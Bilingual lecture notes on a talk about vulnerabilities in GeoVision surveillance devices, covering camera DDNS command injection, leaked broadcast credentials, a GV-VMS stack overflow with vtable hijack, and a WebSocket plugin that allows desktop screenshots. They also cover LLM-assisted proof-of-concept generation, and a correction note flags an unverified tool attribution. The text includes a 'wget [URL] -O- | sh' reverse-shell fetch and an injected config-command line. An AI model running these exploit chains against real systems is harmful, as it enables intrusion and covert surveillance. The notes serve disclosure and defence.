




# Lecture 2: When Your Surveillance System Is Watching You: Breaking Into GeoVision Devices in the Age of AI
# 第二講：當你的監視系統在監視你：在 AI 時代侵入 GeoVision 設備

---

> **Note / 校訂：** These notes originally attributed a specific tool chain — OpenAI Codex + a custom Model Context Protocol (MCP) server + IDA Pro + Playwright — to the speaker's own workflow. **No public source connects Philippe Laulheret to those specific tools.** The Cisco Talos post on LLM-assisted reverse engineering is authored by Guilherme Venere, and `ida-pro-mcp` / `playwright-mcp` are unrelated third-party projects. Passages below that describe such a pipeline are retained as *room notes*, explicitly marked as unverified, and the named tools are listed in Further Reading as **related community tooling, not the speaker's attested stack**.
> 本文原稿將「OpenAI Codex ＋ 自製 MCP 伺服器 ＋ IDA Pro ＋ Playwright」這一整套工具鏈歸屬於講者本人的工作流程。**目前沒有任何公開來源可佐證 Philippe Laulheret 使用上述特定工具。** Cisco Talos 談 LLM 輔助逆向工程的文章作者為 Guilherme Venere；`ida-pro-mcp` 與 `playwright-mcp` 皆為第三方獨立專案。以下相關段落一律保留為「現場筆記」並標註為未經查證，所提及的工具則移至「延伸閱讀」，標示為**社群相關工具，而非講者已證實使用的工具組**。

---

## 1. Speaker Information & Topic / 講者資訊與演講主題

### English
* **Speaker:** **Philippe Laulheret**
  * **Affiliation:** Senior Researcher at **Cisco Talos**
  * **Specialization:** Focuses on Windows vulnerability research, reverse engineering, and automated security analysis. His work involves finding high-impact security bugs in embedded systems and enterprise software, reporting them to vendors, and developing threat detection rules.
* **Topic:** **When Your Surveillance System Is Watching You: Breaking Into GeoVision Devices in the Age of AI**
* **Lecture Duration:** 40-minute general-audience technical lecture presented at HITCON 2026.

### 繁體中文
* **講者：** **Philippe Laulheret**
  * **機構：** **Cisco Talos** 資深資安研究員
  * **專業領域：** 專注於 Windows 漏洞研究、逆向工程與自動化安全分析。他的日常工作包括發掘嵌入式系統與企業級軟體中的高影響力安全漏洞、回報給廠商修補，並為防禦端開發威脅偵測規則。
* **主題：** **當你的監視系統在監視你：在 AI 時代侵入 GeoVision 設備** (When Your Surveillance System Is Watching You: Breaking Into GeoVision Devices in the Age of AI)
* **演講性質：** 於 HITCON 2026 發表之 40 分鐘高度技術性實戰演講。

---

## 2. Quick Summary / 內容簡要

### English
This lecture details Philippe Laulheret's vulnerability research into the security ecosystem of **GeoVision**, a major video surveillance manufacturer. He explores four distinct attack surfaces across GeoVision's product line: firmware-level vulnerabilities in the **GV-LPC2211** license plate capture camera, cryptographic failures in the **GV-IP Device Utility**, critical stack-based buffer overflows in the **GV-VMS** (Video Management Software) server running with `SYSTEM` privileges, and logical bypasses in the **Web Player** browser plugin. Beyond standard vulnerability analysis, the talk closes on how LLM assistance is changing this kind of research: pushing decompiler output through a language model to triage dangerous endpoints, generating proof-of-concept pages, driving them in a headless browser, and collecting crash evidence and packet captures for defensive teams. *(Room note, unverified: these notes recorded a specific stack of OpenAI Codex, a custom **Model Context Protocol (MCP)** server bridging IDA Pro, and Playwright. See the correction callout at the top — no public source ties those specific tools to the speaker, so treat the pipeline below as the general pattern rather than an attested workflow.)*

### 繁體中文
本演講詳細記錄了 Philippe Laulheret 對知名監控設備廠商 **GeoVision** 安全生態系統的深入漏洞研究。講者揭示了 GeoVision 產品線中四個不同的攻擊面：**GV-LPC2211** 車牌辨識相機的韌體級漏洞、**GV-IP Device Utility** 配置工具的密碼學實作缺陷、在 `SYSTEM` 高權限下運行的 **GV-VMS**（影像管理軟體）伺服器的堆疊緩衝區溢位漏洞，以及 **Web Player** 瀏覽器插件的邏輯設計缺陷。除了傳統的安全漏洞分析外，演講後半段談到 LLM 如何改變這類研究工作：將反編譯輸出交由語言模型初步篩選危險端點、生成 PoC 測試頁、以無頭瀏覽器自動觸發，並為防禦團隊收集崩潰證據與封包擷取檔（PCAP）。*（現場筆記，未經查證：本文原稿記錄的具體工具組為 OpenAI Codex、自製 **Model Context Protocol (MCP)** 伺服器橋接 IDA Pro，以及 Playwright。詳見文首校訂說明——目前無公開來源可將這些特定工具與講者連結，故以下流程請視為業界通則，而非講者已證實的工作流程。）*

---

## 3. Structured Lecture Context (Extremely Detailed) / 結構化演講內容（極致詳細）

### 3.0 Map of the Four Attack Surfaces / 四個攻擊面總覽

*The four product lines the research covers, and the class of outcome each surface yields.*
*本研究涵蓋的四條產品線，以及每個攻擊面所導致的後果類型。*

### 3.1 Attack Surface 1: GV-LPC2211 Camera Firmware Exploitation / 攻擊面一：GV-LPC2211 車牌攝影機韌體漏洞利用

#### English
* **Target Identification:** The target of this research is the **GeoVision GV-LPC2211**, an embedded license plate capture (LPC) camera.
* **Firmware Extraction:** The firmware is downloadable directly from the GeoVision website. A simple hex-editor analysis reveals unencrypted bootloader headers (`U-Boot`) and kernel identifiers (`camera`). This lack of encryption allows immediate extraction using **Binwalk**, yielding the camera's full Linux root filesystem.
* **Service Reconnaissance:** Reversing the system binaries reveals multiple custom network management protocols and CGI endpoints.
* **Dynamic DNS (DDNS) Parameter Vulnerability:**
  * The camera utilizes an off-the-shelf dynamic DNS client named **Easy IP Update** (`easyipupdate`).
  * When a user configures DDNS settings through the camera's web interface, parameters (such as host name, username, and password) are written directly into a configuration file (`easyipupdate.conf`) without sanitization.
  * An attacker can inject **line breaks** (`\n`) into these input fields to inject arbitrary configuration parameters into the config file.
* **Command Injection via Configuration Abuse:**
  * The `easyipupdate` configuration format natively supports an `execute command` parameter, designed to execute a shell command upon successful IP binding.
  * By injecting `execute command = [payload]` into the parameters, the attacker forces the system to run arbitrary shell commands.
* **Exploit Chain & RCE:**
  * To trigger the command execution, the `easyipupdate` client must achieve a "successful update" status.
  * The attacker sets up a fake DNS/DDNS server on their own system to return a "success" response.
  * When the camera queries the fake server, the client registers a successful bind, immediately executing the injected command.
  * Because the input field has a strict character limit, the attacker uses a compact payload: `wget [URL] -O- | sh` to fetch and execute a full reverse shell script, achieving full authenticated **Remote Code Execution (RCE)**.

#### 繁體中文
* **目標選定：** 研究對象為 **GeoVision GV-LPC2211**，這是一款專門用於車牌擷取與辨識（LPC）的嵌入式攝影機。
* **韌體擷取：** 該相機的韌體可直接從 GeoVision 官方網站上下載。使用十六進位編輯器進行初步分析，即可發現未加密的引導加載程序標頭（`U-Boot`）和內核標識符（`camera`）。由於韌體完全沒有加密保護，研究員可直接使用 **Binwalk** 工具將其完整解包，取得相機的 Linux 根檔案系統。
* **服務探測：** 經逆向分析系統二進位檔案，發現相機運行了多個自定義的網路管理協議和 CGI 端點。
* **動態 DNS (DDNS) 參數解析漏洞：**
  * 相機內建使用了一款名為 **Easy IP Update** (`easyipupdate`) 的開源第三方動態 DNS 用戶端軟體。
  * 當用戶透過網頁管理介面設定 DDNS 時，輸入的參數（如主機名稱、使用者名稱及密碼）會在無任何過濾的情況下，直接寫入配置文件 `easyipupdate.conf` 中。
  * 攻擊者可以在這些輸入欄位中注入 **換行符號** (`\n`)，從而向配置文件中任意注入自定義的配置項目。
* **利用設定檔注入進行命令執行：**
  * `easyipupdate` 配置格式原生支持一個名為 `execute command` 的參數，該參數旨在當 DDNS 成功綁定並更新 IP 後，自動在系統內執行指定的 Shell 命令。
  * 透過向欄位注入 `execute command = [payload]`，攻擊者可以劫持此設定。
* **完整漏洞鏈與遠端代碼執行 (RCE)：**
  * 為了觸發命令執行，`easyipupdate` 用戶端必須收到一個「成功更新」的狀態回覆。
  * 攻擊者在本地搭建一個虛假的 DDNS 伺服器，並對相機返回一個構造好的成功綁定數據包。
  * 當相機向該虛假伺服器發送請求時，用戶端判定更新成功，進而觸發執行注入的命令。
  * 由於相機網頁欄位長度受限，攻擊者使用極簡的 Payload：`wget [URL] -O- | sh` 下載並執行完整的反彈 Shell 腳本，成功獲得最高權限的**遠端代碼執行 (RCE)**（此漏洞需經過身分驗證，但依然是致命的安全問題）。

---

### 3.2 Attack Surface 2: GV-IP Device Utility Cryptographic Failure / 攻擊面二：GV-IP Device Utility 密碼學實作失效

#### English
* **Software Purpose:** The **GV-IP Device Utility** is a desktop application used by system administrators to discover, configure, and manage GeoVision cameras on the local network.
* **The Custom Broadcast Protocol:** The utility discovers and sends commands (such as reboot commands) to cameras over the network. To ensure convenience, **all commands are sent via UDP broadcast**, meaning any host on the same local network segment can sniff the traffic.
* **The Cryptographic Flaw:**
  * When executing privileged actions (e.g., Command ID `0x005` to reboot the camera), the utility must authenticate with the camera.
  * To protect credentials, the software encrypts the administrative username and password before transmitting them.
  * However, the developers chose to **embed the static encryption key directly inside the broadcast packet itself** as a printable C-string alongside the ciphertext.
* **Deobfuscating Blowfish with AI Emulation:**
  * Inspection of the packet captures in Wireshark showed the cleartext key and the encrypted credential payload.
  * Reversing the cryptographic function suggested it was related to the **Blowfish** cipher (revealed by Blowfish's signature S-box constants). However, decrypting the payload using standard, off-the-shelf Blowfish libraries failed.
  * The resolution came from **emulating the binary's own cryptographic routine** with the **Unicorn engine**, rather than trying to match it against a library implementation. *(Room note, unverified: these notes recorded that an LLM — OpenAI Codex — was asked to write the Unicorn harness. See the correction callout at the top; that attribution is not corroborated by any public source. The emulation result itself stands on its own.)*
  * The emulation revealed that the algorithm was indeed standard Blowfish, but it was processing bytes in **little-endian memory order** (byte-swapped), which caused standard decryptors to fail.
  * By reversing the endianness, the researcher could immediately decrypt any GV-IP Device Utility broadcast packet, sniffing administrative usernames and passwords from the local network segment.

#### 繁體中文
* **軟體用途：** **GV-IP Device Utility** 是一款桌面應用程式，用於幫助系統管理員在區域網路內自動搜尋、配置與管理 GeoVision 的所有相機設備。
* **自定義廣播協議：** 該配置工具透過網路向相機發送發現與重啟等控制指令。為了實作無障礙配置，**所有指令均透過 UDP 廣播發送**。這意味著身處同一個區域網路的任何主機，都能輕易監聽並捕獲所有配置封包。
* **密碼學設計缺陷：**
  * 當執行特權操作（如命令 ID `0x005` 重啟相機）時，工具必須向相機提供管理員密碼以通過認證。
  * 為了保護憑證，軟體會對管理員的使用者名稱與密碼進行加密後再行傳輸。
  * 然而，開發人員做出了一個令人匪夷所思的安全決策：他們將**靜態加密金鑰以可讀 C 字串的形式，直接與加密後的密文一起存放在同一個廣播封包中發送**。
* **利用 AI 模擬逆向解密 Blowfish 演算法：**
  * 在 Wireshark 中觀察捕獲的廣播封包，可以清晰看到明文金鑰與密文憑證。
  * 逆向工程分析該加密函數，發現其特徵值（S-Box 常數）指向經典的 **Blowfish** 加密演算法。然而，嘗試使用標準的開源 Blowfish 程式庫進行解密時卻宣告失敗。
  * 突破口在於改用 **Unicorn 模擬引擎直接執行該二進位檔本身的加密常式**，而非硬要比對函式庫實作。*（現場筆記，未經查證：本文原稿記錄由 LLM（OpenAI Codex）代寫該 Unicorn 腳本。詳見文首校訂說明，此歸屬並無公開來源佐證；但模擬所得的結論本身不受影響。）*
  * 經由模擬執行，可確認該加密實作在本質上確實是標準的 Blowfish，但在儲存和運算過程中採用了**小端序 (Little-Endian) 記憶體排列順序**（位元組顛倒），導致常規解密軟體無法正確處理。
  * 在修正了端序問題後，研究員得以瞬間解密區域網路上捕獲的任何 GV-IP Device Utility 廣播數據包，完美還原管理員的明文帳號與密碼。

---

### 3.3 Attack Surface 3: GV-VMS Stack-Based Buffer Overflow / 攻擊面三：GV-VMS 堆疊緩衝區溢位與核心提權

#### English
* **VMS Architecture:** **GV-VMS** is a comprehensive Video Management System. It runs a native web service ("Webcam Server") designed to stream video feeds to remote clients. Crucially, this service runs with **`SYSTEM` privileges** on Windows.
* **Mitigation Gaps:** An assessment of the binary using Process Explorer reveals a severe security oversight: the Webcam Server and multiple critical DLL dependencies were compiled **without Address Space Layout Randomization (ASLR)**. Memory addresses of code segments remain static and perfectly predictable across reboots, facilitating reliable exploitation.
* **The Vulnerability (Stack Buffer Overflow):**
  * The Webcam Server handles remote user logins via Basic and Digest HTTP Authentication.
  * When processing Basic Authentication headers, the server decodes the Base64-encoded credential string.
  * The decoded output is copied directly into a local stack-allocated buffer of **256 bytes**.
  * The copying function lacks any boundary or size checks, leading to a classic, unauthenticated **Stack-Based Buffer Overflow**.
* **Bypassing Stack Cookies (GS Protection):**
  * The binary was compiled with Stack Cookies (`/GS` protection), which should detect stack corruption and abort execution prior to function return.
  * However, adjacent to the vulnerable 256-byte buffer on the stack lies a pointer to a **C++ Server App Object**.
  * Just before the function exits (and before the stack cookie is validated), the code reads this object pointer from the stack, dereferences its **virtual function table (vtable)**, and executes a virtual function.
  * By overflowing the buffer, the attacker overwrites this C++ object pointer, redirecting it to a fake, attacker-controlled vtable constructed at a known, static address (enabled by the lack of ASLR).
  * When the program executes the virtual function, control flow is hijacked. The attacker redirects execution to `ShellExecuteA` to launch arbitrary commands before the stack cookie validation is reached.
* **Exploit Resilience:** If the server crashes during exploitation, Windows restarts the service automatically within 10 seconds. This allows attackers to perform infinite brute force attempts without locking themselves out. The demo successfully pops a **reverse shell running with `SYSTEM` privileges** from the unauthenticated web port.

#### 繁體中文
* **VMS 架構：** **GV-VMS** 是一款功能強大的大型影像管理系統。它在 Windows 系統上運行了一個原生網頁服務（名為「Webcam Server」），旨在將視訊串流推送至遠端用戶端。關鍵在於，該網頁伺服器在 Windows 中是以最高權限的 **`SYSTEM` 帳戶** 運行的。
* **緩和機制缺陷：** 使用 Process Explorer 對運行的二進位檔案進行評估，揭露了一個極為嚴重的安全疏忽：Webcam Server 及其多個核心相依的 DLL 模組在編譯時**完全沒有啟用位址空間配置隨機化 (ASLR)**。這意味著在系統重啟後，記憶體中的程式碼段位址依然保持不變，為穩定、可靠的漏洞利用提供了極大便利。
* **漏洞成因（堆疊緩衝區溢位）：**
  * Webcam Server 透過 Basic 和 Digest HTTP 身分驗證機制來處理遠端用戶的登入。
  * 當處理 Basic 驗證標頭時，伺服器會解碼經 Base64 編碼的憑證字串。
  * 然而，伺服器在將解碼後的數據複製到一個大小僅為 **256 位元組** 的本地堆疊緩衝區時，**完全沒有進行長度或邊界檢查**，直接引發了未授權的**堆疊緩衝區溢位 (Stack-Based Buffer Overflow)**。
* **繞過 Stack Cookie (GS 防禦機制)：**
  * 雖然該二進位檔案啟用了 Stack Cookie（`/GS` 編譯安全選項），理論上在函數返回並驗證 Cookie 被篡改後會立即終止進程，從而阻止代碼執行。
  * 然而，在堆疊記憶體中緊鄰該 256 位元組緩衝區下方，存放著一個指向 **C++ Server App 對象** 的指標。
  * 在函數結束並準備進行 Stack Cookie 檢驗之前，程式碼會從堆疊中讀取這個對象指標，解析其**虛擬函數表 (Vtable)** 並呼叫其中的虛擬函數。
  * 透過溢位緩衝區，攻擊者可以精確覆寫該 C++ 對象指標，將其指向一個由攻擊者在已知靜態記憶體位址中構造的「虛假 Vtable」（得益於系統未啟用 ASLR）。
  * 當程式執行該虛擬函數呼叫時，控制流瞬間被劫持。攻擊者在 Stack Cookie 驗證機制被觸發前，便成功跳轉至 `ShellExecuteA` 執行任意系統命令。
* **高容錯率：** 即使攻擊者在利用漏洞時導致進程崩潰，Windows 系統也會在 10 秒內自動重啟該 Webcam Server 服務。這使攻擊者能夠進行無限制的暴力嘗試。演講現場展示了在未經授權的情況下，成功奪取 **`SYSTEM` 權限反彈 Shell** 的震撼過程。

#### Conceptual Exploit Chain / 漏洞利用鏈概念圖

*Why the stack cookie never fires — the hijacked vtable call happens earlier in the function than the cookie check, and the missing ASLR makes the fake vtable address predictable.*
*Stack Cookie 之所以失效的原因——被劫持的虛擬函數呼叫發生在函數中的 Cookie 檢驗之前；再加上未啟用 ASLR，偽造 vtable 的位址得以事先預測。*

---

### 3.4 Attack Surface 4: Web Player WebSocket Plugin Logic Gaps / 攻擊面四：Web Player WebSocket 插件邏輯缺陷

#### English
* **The Client-Side Attack Vector:** To view low-latency video streams in a web browser, users are prompted to install a native helper application called the **Web Player**. This is a native Windows app that runs a local WebSocket server (`ws://localhost:<port>`) on the client's machine.
* **Origin Verification Defect (Cross-Origin Bypass):**
  * The WebSocket server running on `localhost` is accessible by any web page running in the client's browser.
  * Crucially, the local WebSocket server performs **no Origin header verification**.
  * Any malicious website visited by a user with this plugin installed can connect to the local WebSocket server and issue executive commands directly to the user's machine, pivoting from the web into the local operating system.
* **Out-of-Bounds Index Bugs:**
  * Reversing the WebSocket command dispatcher revealed over 12 endpoints suffering from an **out-of-bounds array index** vulnerability.
  * For instance, commands directing the plugin to connect to a camera specify a camera index (e.g., `camera_index = 5`). The plugin reads this parameter and accesses internal memory structures without performing upper or lower bound validation, enabling out-of-bounds memory reads and write crashes.
* **Scaling the write-up across 12 near-identical bugs (room note, unverified attribution):**
  * Documenting a dozen structurally identical out-of-bounds bugs by hand is the tedious part of this kind of research, and the talk closed on automating it.
  * *These notes recorded a specific pipeline — an **OpenAI Codex** model driving IDA Pro's decompiler through a custom **Model Context Protocol (MCP)** server, generating a single HTML page carrying a payload per vulnerable WebSocket endpoint, then **Playwright** visiting that page, watching the plugin's process ID (PID) for crashes, and capturing PCAPs for defensive analysts.*
  * ***Correction:*** *no public source connects Philippe Laulheret to Codex, MCP, `ida-pro-mcp`, or Playwright. See the callout at the top of this file. The diagram below is presented as the **general Talos/community pattern** for LLM-assisted reverse engineering, not as the speaker's attested workflow.*
* **Desktop Espionage via Logic Abuse ("Watching the Watchers"):**
  * While exploring commands, Philippe discovered an undocumented API endpoint: `get_screen_capture`.
  * This API takes a window title parameter (supporting wildcards like `*`), searches for active window handles on the system, takes screenshots of those windows, and returns them to the caller as Base64-encoded PNG strings.
  * Originally intended to overlay camera feeds, this API was completely unrestricted.
  * A malicious site connecting via WebSocket can abuse this feature to repeatedly take screenshots of the user's desktop, effectively spying on security administrators and converting the surveillance platform into a remote spy tool.

#### 繁體中文
* **客戶端攻擊向量：** 為了在網頁瀏覽器中播放低延遲的監視器畫面，用戶會被引導下載並安裝一款名為 **Web Player** 的本機輔助程式。這是一個在本機 Windows 上運行的 WebSocket 伺服器（位址為 `ws://localhost:<port>`）。
* **來源驗證缺陷（跨來源安全繞過）：**
  * 在本機運行的 WebSocket 伺服器，預設可以被用戶瀏覽器中開啟的任何網頁存取。
  * 致命之處在於，該本機 WebSocket 伺服器**完全沒有對 HTTP 請求的 `Origin` 標頭進行驗證**。
  * 這意味著只要安裝了此插件的用戶訪問了任何惡意網站，該網站便能在背景建立連線，直接向用戶本機發送控制指令，將攻擊面從外部瀏覽器成功延伸進本機作業系統。
* **索引值越界漏洞 (Out-of-Bounds Index)：**
  * 逆向工程分析該 WebSocket 指令分發器，發現有高達 12 個 API 端點存在**陣列索引值越界**漏洞。
  * 例如，在指定連線至特定監視器時（如設定 `camera_index = 5`），程式碼會直接將此索引值用於內部結構指標的運算，而**完全不進行邊界與大小檢查**。輸入極大或極小的越界值會直接導致本機記憶體越界讀寫與程式崩潰。
* **面對 12 個結構相似漏洞的量產式驗證（現場筆記，歸屬未經查證）：**
  * 為十餘個結構完全相同的越界漏洞逐一撰寫報告與 PoC，是這類研究中最枯燥的部分，演講尾聲即在談如何將其自動化。
  * *本文原稿記錄的具體流程為：以 **OpenAI Codex** 透過自製 **Model Context Protocol (MCP)** 伺服器驅動 IDA Pro 反編譯引擎，自動歸納出所有受影響指令並生成一個整合型 HTML 測試頁，再由 **Playwright** 無頭瀏覽器訪問該頁、監視插件進程 ID (PID) 判定崩潰，同時擷取 PCAP 供防禦分析人員使用。*
  * ***校訂：*** *目前無任何公開來源可將 Philippe Laulheret 與 Codex、MCP、`ida-pro-mcp` 或 Playwright 連結。詳見文首校訂說明。以下圖示呈現的是 **Talos／資安社群通行的 LLM 輔助逆向工程模式**，而非講者已證實的工作流程。*
* **利用邏輯設計漏洞進行桌面竊聽（反向監視）：**
  * 在梳理指令時，研究員發現了一個未公開的特殊 API 端點：`get_screen_capture`（獲取螢幕擷圖）。
  * 該 API 接受一個視窗標題參數（支持通配符 `*`），搜尋本機所有活動視窗控制代碼，對其進行畫面擷取，並將截圖轉化為 Base64 編碼的字串返回。
  * 該功能本意是用於在網頁介面上疊加攝影機視訊框，但完全沒有安全授權限制。
  * 任何外部惡意網站皆可透過 WebSocket 濫用此 API，在背景神不知鬼不覺地對用戶的整個 Windows 桌面進行持續截圖並回傳。這使得監控系統的管理員反過來被監視，變成了駭客的遠端竊聽工具。

#### Web Player Cross-Origin Pivot / Web Player 跨來源樞紐路徑

*The missing `Origin` check is what turns a browser visit into local-machine command execution; everything downstream is reachable from any web page.*
*缺少 `Origin` 驗證，使得單純瀏覽網頁即可對本機下達指令；其後所有處理函式皆可由任意網站直接觸及。*

#### General Pattern for LLM-Assisted Reverse Engineering / LLM 輔助逆向工程的通用模式

> **Attribution / 歸屬：** This diagram depicts the **general Talos / security-community pattern**, assembled from publicly documented tooling. **It is not the speaker's own workflow** — see the correction callout at the top of this file.
> 本圖呈現的是**依公開工具文件整理出的 Talos／資安社群通用模式**，**並非講者本人的工作流程**，詳見文首校訂說明。

*The human stays in the loop: the model narrows the search space and drafts artefacts, but confirmation, disclosure, and judgement remain manual.*
*人始終在迴圈中：模型負責縮小搜尋範圍與草擬產出，但驗證、通報與判斷仍由人工把關。*

---

## 4. Conclusion / 結論

### English
* **Systemic IoT Fragility:** Philippe Laulheret's research highlights a persistent theme in IoT security: complex systems are only as secure as their weakest component. A highly engineered AI surveillance network is entirely undermined by basic software engineering oversights, such as compiling enterprise software without ASLR, hardcoding decryption keys in broadcast packets, and blindly trusting cross-origin WebSockets.
* **The Paradigm Shift in Security Engineering:** More broadly across the field, wiring language models into traditional static and dynamic analysis tooling marks a real shift in how this work scales. Automated bug hunting is no longer restricted to rigid fuzzing; a model can reason about decompiled logic, surface context-specific flaws, draft proof-of-concept code, and drive validation. *(The specific Codex/MCP/IDA/Playwright stack recorded in these notes is not attributed to the speaker — see the correction callout at the top.)*
* **Defense-in-Depth Priority:** Vulnerability boundaries must extend beyond the network perimeter. The local boundary between peripheral software (VMS, plugins) and the Windows operating system must be strictly policed.

### 繁體中文
* **物聯網安全的系統性脆弱：** Philippe Laulheret 的研究再次驗證了物聯網安全中一個不變的真理：複雜系統的安全性僅取決於最脆弱的那個環節。即便部署了最先進的 AI 影像辨識防線，也可能因為基本軟體工程的低級失誤（如編譯未啟用 ASLR、在廣播中明文暴露密鑰、WebSocket 未做跨域驗證）而被瞬間攻破。
* **安全工程的典範轉移：** 就整個產業而言，將大語言模型接入傳統靜態與動態分析工具，確實改變了這類研究的規模化方式。自動化尋找漏洞不再局限於死板的模糊測試（Fuzzing）；模型已具備理解反編譯邏輯、浮現特定缺陷、草擬 PoC 程式碼並驅動驗證的能力。*（本文原稿記錄的 Codex／MCP／IDA／Playwright 具體工具組並未歸屬於講者，詳見文首校訂說明。）*
* **深度防禦的迫切性：** 安全邊界必須從傳統的網路邊界延伸至更細微之處。系統開發者必須將本機管理軟體（如 VMS、插件）與作業系統內核之間的互動，視為極其關鍵的安全邊界進行嚴格審查與防禦。

---

## 5. Possible Implementation Direction or Extension Ways / 可能的延伸實作與防禦方向

### English
1. **ASLR and Exploit Mitigations Enforcement:** Compile all components of the Webcam Server, VMS, and associated dynamic link libraries (`.dll`) with active Address Space Layout Randomization (`/DYNAMICBASE`), Data Execution Prevention (`/NXCOMPAT`), and Control Flow Guard (`/guard:cf`) to neutralize virtual function table hijacking and stack-based RCE.
2. **Cryptographic Hardening & Session Security:** Completely eliminate UDP-broadcast credential transit. Transition the GV-IP Device Utility to encrypted unicast protocols (e.g., TLS 1.3) with ephemeral keys, and ensure encryption keys are never transported alongside ciphertexts.
3. **Origin and Cross-Origin Protections (WebSocket Securing):** Secure the Web Player browser helper by implementing local token authentication or validating the `Origin` header of incoming WebSocket connections. Connections from unapproved external websites must be immediately blocked.
4. **AI-Driven Automated Vulnerability Pipelines (DevSecOps):** Security teams can bring the general LLM-assisted analysis pattern into their CI/CD pipelines. Integrating a model with static analysis tools (e.g., Semgrep, IDA) can flag memory indexing bugs and unconstrained copies before code is compiled and shipped. *(This is a generic recommendation, not a workflow attributed to the speaker.)*

### 繁體中文
1. **加強編譯期安全防禦：** 全面強制對 Webcam Server、VMS 以及所有關聯 DLL 啟用 ASLR（`/DYNAMICBASE` 編譯選項）、DEP（`/NXCOMPAT` 數據執行保護）以及控制流守護（`/guard:cf`），藉此杜絕利用虛擬函數表（Vtable）劫持與堆疊溢位進行 RCE 的路徑。
2. **密碼學實作與傳輸安全加固：** 徹底淘汰使用 UDP 廣播傳輸敏感憑證的作法。將 GV-IP Device Utility 遷移至安全的單播加密協定（如 TLS 1.3），使用臨時金鑰，並確保金鑰絕不與密文在同一個管道中傳播。
3. **WebSocket 來源驗證與本地認證：** 針對 Web Player 插件，實作本地身分驗證 Token 機制，並在 WebSocket 連線建立時嚴格校驗 HTTP `Origin` 標頭。一律阻斷任何非官方授權網站發起的跨域連線請求。
4. **AI 驅動的自動化漏洞偵測流水線（DevSecOps）：** 企業安全團隊可將通用的 LLM 輔助分析模式導入日常 CI/CD 流程。透過語言模型與靜態程式碼分析工具（如 Semgrep、IDA）的整合，在代碼編譯發布前自動檢測陣列索引越界、無長度限制的記憶體複製等高危險漏洞。*（此為通則性建議，並非歸屬於講者的工作流程。）*

---

## 6. Precise Bilingual Transcript / 精確雙語對照逐字稿

### English & Traditional Chinese Parallel Table / 英文與繁體中文平行對照表

> **Note / 校訂：** The rows below are preserved verbatim as originally noted in the room and have **not** been edited. Rows mentioning OpenAI Codex, MCP, IDA Pro, or Playwright are room notes only — no public source corroborates that tool attribution. See the correction callout at the top of this file.
> 以下表格保留現場筆記原貌，**未經改動**。其中提及 OpenAI Codex、MCP、IDA Pro 或 Playwright 的段落僅為現場筆記，並無公開來源可佐證該工具歸屬，詳見文首校訂說明。

| English (Bilingual Transcription) | 繁體中文對照 (Precise Translation) |
| :--- | :--- |
| **Speaker:** I'm going to talk about GeoVision stuff and how we can mess with the devices and the software with them. | **講者：** 我今天將探討 GeoVision 產品，以及我們如何攻破他們的硬體設備與管理軟體。 |
| Hi, I'm Philippe, I'm a senior researcher at Cisco Talos, and I focus on Windows vulnerability research and system analysis. | 大家好，我是 Philippe，目前擔任 Cisco Talos 的資深研究員，主要專注於 Windows 漏洞研究與系統分析。 |
| The idea is like, I find interesting targets, find vulnerabilities, we report them to the vendors, they fix things, and eventually we publish reports and presentation like what I'm doing right now. | 我們的核心理念是尋找有趣的目標、發掘漏洞、回報給廠商進行修補，最後公開發表研究報告與簡報，就像我今天在這裡做的一樣。 |
| Um, so what to expect from this presentation? It's about a 40-minute presentation where I will go over a bunch of vulnerabilities I found in one embedded device from GeoVision and three separate software. | 在這場大約 40 分鐘的演講中，我將為大家剖析我在 GeoVision 的一款嵌入式硬體設備，以及三款獨立的配套軟體中所發現的一系列安全漏洞。 |
| Towards the end, I will also talk about how to use AI to help automate that process. | 在演講的後半段，我還會分享如何利用人工智慧（AI）來協助並自動化這一整套研究工作流程。 |
